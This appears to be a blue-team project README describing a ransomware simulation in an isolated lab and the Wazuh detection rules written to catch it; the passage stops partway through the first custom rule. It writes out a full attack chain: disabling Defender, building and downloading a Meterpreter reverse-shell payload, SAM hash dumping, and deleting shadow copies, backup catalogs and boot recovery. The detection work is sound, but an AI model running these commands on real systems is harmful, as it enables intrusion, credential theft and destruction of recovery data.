# Enterprise SOC Detection Lab: Ransomware Simulation & Detection Engineering

[](https://wazuh.com)
[](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon)
[](https://attack.mitre.org/techniques/T1490/)
[](#author)

> An end-to-end blue team security project demonstrating ransomware attack chain simulation, SIEM detection gap analysis, and custom rule engineering using **Wazuh SIEM/XDR** and **Sysmon** telemetry.

---

## 📑 Table of Contents
- [Executive Overview](#-executive-overview)
- [Lab Architecture & Specifications](#-lab-architecture--specifications)
- [Real-World Attack Timeline](#-real-world-attack-timeline)
- [Attack Chain & Execution Blueprint](#-attack-chain--execution-blueprint)
  - [Phase 1: Environment Baseline & Telemetry Verification](#phase-1-environment-baseline--telemetry-verification)
  - [Phase 2: Reconnaissance & Defense Evasion](#phase-2-reconnaissance--defense-evasion)
  - [Phase 3: Payload Generation & Delivery](#phase-3-payload-generation--delivery)
  - [Phase 4: Command & Control (C2) Establishment](#phase-4-command--control-c2-establishment)
  - [Phase 5: Post-Exploitation & Credential Harvesting](#phase-5-post-exploitation--credential-harvesting)
  - [Phase 6: Ransomware Recovery Inhibition Staging](#phase-6-ransomware-recovery-inhibition-staging)
- [SIEM Detection Gap Analysis](#-siem-detection-gap-analysis)
- [Detection Engineering & Rule Optimization](#-detection-engineering--rule-optimization)
- [MITRE ATT&CK Mapping](#-mitre-attck-mapping)
- [Indicators of Compromise (IOCs)](#-indicators-of-compromise-iocs)
- [Incident Report](#-incident-report)
- [Author](#-author)

---

## 🎯 Executive Overview

Modern ransomware operators (e.g., LockBit, BlackCat, WannaCry) systematically disable system recovery features—such as Volume Shadow Copies, backup catalogs, and boot recovery configurations—before executing payload encryption. 

Standard SIEM out-of-the-box configurations frequently log raw process creation events without elevating recovery inhibition utilities to actionable, high-severity alerts. 

**Key Technical Achievements:**
1. **Full Attack Lifecycle Execution:** Simulated reconnaissance, defense evasion, HTTP payload delivery, C2 reverse shell establishment, privilege escalation, credential dumping, and recovery inhibition (MITRE ATT&CK T1490).
2. **Telemetry Pipeline Setup:** Ingested enriched Sysmon Event ID 1 process creation logs (`Microsoft-Windows-Sysmon/Operational`) into Wazuh SIEM.
3. **Detection Gap Analysis:** Verified that default Wazuh rules drop administrative process events below alert thresholds, creating a critical blind spot for SOC analysts.
4. **Detection Engineering:** Authored and validated **3 custom XML detection rules** (Rules `100001`–`100003`) that automatically escalate recovery inhibition techniques to **Level 12 Critical** alerts with direct MITRE ATT&CK mapping.

---

## 🏗️ Lab Architecture & Specifications

The environment operates within an isolated VMware host-only network segment. External internet connectivity is disabled during simulation.

```text
  +-----------------------+                         +-----------------------+
  |      Kali Linux       |    Reverse TCP C2       | Windows 10 Enterprise |
  |   (Attacker Machine)  | <---------------------> |   (Victim Endpoint)   |
  |    192.168.184.129    |    Payload Execution    |    192.168.184.166    |
  +-----------------------+                         +-----------------------+
              |                                                 |
              | Reconnaissance                                  | Sysmon (Event ID 1)
              | Scan Scope                                      | & WinEvent Channel
              v                                                 v
  +-------------------------------------------------------------------------+
  |                          Wazuh SIEM / Manager                           |
  |                             192.168.184.130                             |
  +-------------------------------------------------------------------------+
```

| Component | Hostname / OS | IP Address | MAC Address | Installed Security Tools |
| :--- | :--- | :--- | :--- | :--- |
| **Attacker Machine** | Kali Linux 2026.1 | `192.168.184.129` | — | Nmap 7.99, Metasploit v6.4, Msfvenom |
| **Victim Endpoint** | DESKTOP-GFKOI38 (Win 10 21H1 Build 19043.928) | `192.168.184.166` | `00:0C:29:66:5D:2A` | Microsoft Sysmon v15.21, Wazuh Agent v4.14.5 |
| **SIEM Platform** | wazuh-server (Ubuntu OVA) | `192.168.184.130` | — | Wazuh Manager & Dashboard v4.14.5 |

---

## 🕒 Real-World Attack Timeline

| Timestamp | Phase / Event | Command / Tool | MITRE ATT&CK | Telemetry Source |
| :--- | :--- | :--- | :--- | :--- |
| **03:54:00 EDT** | Nmap Network Reconnaissance | `nmap -sV -O -p- 192.168.184.166 -oN nmap_scan.txt` | `T1595` | Kali Console Log |
| **04:07:00 EDT** | Malicious Payload Generation | `msfvenom -p windows/x64/meterpreter/reverse_tcp ...` | `T1204.002` | Kali Terminal |
| **04:37:00 EDT** | Multi/Handler Listener Launch | `msfconsole` (`exploit/multi/handler`) | `T1571` | Metasploit |
| **04:47:59 EDT** | Meterpreter C2 Session Open | Reverse TCP connection (`192.168.184.166:60820` $\rightarrow$ `192.168.184.129:4444`) | `T1571` | Metasploit Output |
| **04:50:00 EDT** | Privilege Escalation to SYSTEM | `getsystem` (Named Pipe Impersonation) | `T1134` | Meterpreter |
| **04:50:30 EDT** | Credential Harvesting | `hashdump` (Extracting SAM database hashes) | `T1003` | Meterpreter |
| **05:00:00 EDT** | Recovery Inhibition Staging | `vssadmin delete shadows /all /quiet`, `wbadmin delete catalog -quiet` | `T1490` | Meterpreter Shell |
| **08:39:26 UTC** | Telemetry Baseline Verified | Event collection from `Microsoft-Windows-Sysmon/Operational` | Operational | Sysmon Event ID 1 |
| **09:04:00 EDT** | Defender Monitoring Disabled | `Set-MpPreference -DisableRealtimeMonitoring $true` | `T1562.001` | PowerShell Admin |
| **09:10:00 EDT** | Payload Delivery to Endpoint | `Invoke-WebRequest -Uri "http://192.168.184.129:8080/payload.exe"` | `T1105` | PowerShell Ingress |
| **10:14:00 EDT** | Detection Gap Analysis | Search for `*vssadmin*` in default `wazuh-alerts-*` index $\rightarrow$ **No Results** | Gap Analysis | Wazuh Discover |
| **13:05:59 UTC** | Custom Rule Fired & Alert Escalated | Rule `100001` fired at **Level 12 CRITICAL** for `vssadmin` shadow deletion | `T1490` | Wazuh Alerts |

---

## ⚡ Attack Chain & Execution Blueprint

### Phase 1: Environment Baseline & Telemetry Verification
Verified service operational states and active Sysmon log streaming prior to launching attack vectors.

```powershell
# Verify Wazuh and Sysmon services on Windows 10
sc query sysmon64
Get-Service -Name "wazuh", "sysmon64" | Select-Object Name, Status
```


*Figure 1: Windows Command Prompt confirming `sysmon64` service in RUNNING state.*


*Figure 2: Wazuh Dashboard confirming Agent01 (`192.168.184.166`) actively connected.*


*Figure 3: Wazuh Discover validating real-time telemetry from `Microsoft-Windows-Sysmon/Operational`.*

---

### Phase 2: Reconnaissance & Defense Evasion

1. **Active Port & OS Enumeration (Kali Linux):**
   ```bash
   nmap -sV -O -p- 192.168.184.166 -oN nmap_scan.txt
   ```
   
   *Figure 4: Nmap scan identifying open RPC (135/tcp), NetBIOS (139/tcp), SMB (445/tcp), and HTTP (5357/tcp).*

2. **Programmatic Defense Disabling (Windows 10):**
   ```powershell
   Set-MpPreference -DisableRealtimeMonitoring $true
   ```
   
   *Figure 5: Disabling Windows Defender Real-Time Monitoring via administrative PowerShell prompt.*

---

### Phase 3: Payload Generation & Delivery

1. **Compiling 64-bit Meterpreter Payload (Kali Linux):**
   ```bash
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.184.129 LPORT=4444 -f exe -o payload.exe
   python3 -m http.server 8080
   ```
   
   *Figure 6: Msfvenom binary generation (7680 bytes) and local Python web server startup.*

2. **Endpoint Payload Download (Windows 10):**
   ```powershell
   Invoke-WebRequest -Uri "http://192.168.184.129:8080/payload.exe" -OutFile "C:\Users\Public\payload.exe"
   Get-ChildItem C:\Users\Public\payload.exe
   ```
   
   *Figure 7: Downloading `payload.exe` to `C:\Users\Public\` via native PowerShell web request.*

---

### Phase 4: Command & Control (C2) Establishment

1. **Metasploit Listener Configuration:**
   ```text
   use exploit/multi/handler
   set payload windows/x64/meterpreter/reverse_tcp
   set LHOST 192.168.184.129
   set LPORT 4444
   run
   ```
   
   *Figure 8: Metasploit multi/handler listening on interface `192.168.184.129:4444`.*

2. **Payload Execution & Reverse Socket Establishment:**
   ```cmd
   C:\Users\Public\payload.exe
   ```
   
   *Figure 9: Meterpreter session 1 established from `192.168.184.166:60820` at 04:47:59.*

---

### Phase 5: Post-Exploitation & Credential Harvesting

```text
# Query target identity and system context
getuid
sysinfo

# Elevate privileges to SYSTEM context
getsystem

# Dump local SAM database password hashes
hashdump
```


*Figure 10: Successful in-memory privilege escalation to `NT AUTHORITY\SYSTEM` and SAM database NTLM hash dump.*

---

### Phase 6: Ransomware Recovery Inhibition Staging

```cmd
:: 1. Delete Volume Shadow Copies
vssadmin delete shadows /all /quiet

:: 2. Delete Windows Backup Catalog
wbadmin delete catalog -quiet

:: 3. Disable Boot Recovery Environment
bcdedit /set {default} recoveryenabled No

:: 4. Drop Ransom Note & Simulated Encrypted Artifacts
echo "YOUR NETWORK IS ENCRYPTED. CONTACT RECOVERY@PROTON.ME" > C:\Users\Public\Desktop\README_DECRYPT.txt
echo "LOCKED" > C:\Users\Public\Desktop\FINANCIAL_2026.xlsx.enc
```


*Figure 11: Executing destructive recovery inhibition commands (`vssadmin` and `wbadmin`) from elevated command prompt.*


*Figure 12: Simulated ransom note (`README_DECRYPT.txt`) and encrypted file (`FINANCIAL_2026.xlsx.enc`) created on victim desktop.*

---

## 🔍 SIEM Detection Gap Analysis

During the initial log evaluation phase, a **critical monitoring gap** was demonstrated in default Wazuh rules:

- Executing `data.win.eventdata.commandLine: *vssadmin*` in Wazuh Discover against default `wazuh-alerts-*` indices returned **No Results**.
- **Root Cause:** By default, Wazuh manager drops raw log events with severity below Level 3. Out-of-the-box rule sets categorize native administrative utilities (e.g. `vssadmin.exe`, `wbadmin.exe`) as routine operational activity, failing to elevate shadow copy destruction to an alertable security event.


*Figure 13: Detection Gap evidence — Wazuh Discover returning "No Results" for critical `vssadmin` execution.*

---

## 🛠️ Detection Engineering & Rule Optimization

To eliminate this blind spot, three custom detection rules were authored in `/var/ossec/etc/rules/local_rules.xml`. The rules bind to Sysmon Event ID 1 (`61603`) telemetry, enforce PCRE2 regular expression command-line matching, and map directly to MITRE ATT&CK T1490.

```xml
<group name="windows,ransomware,attack_defense,">

  <!-- Detect Shadow Copy Deletion (vssadmin) -->
  <rule id="100001" level="12">
    <if_sid>61603</if_sid>
    <field name="win.eventdata.image" type="pcre2">(?i)vssadmin\.exe</field>
    <field name="win.eventdata.commandLine" type="pcre2">(?i)delete.*shadows</field>
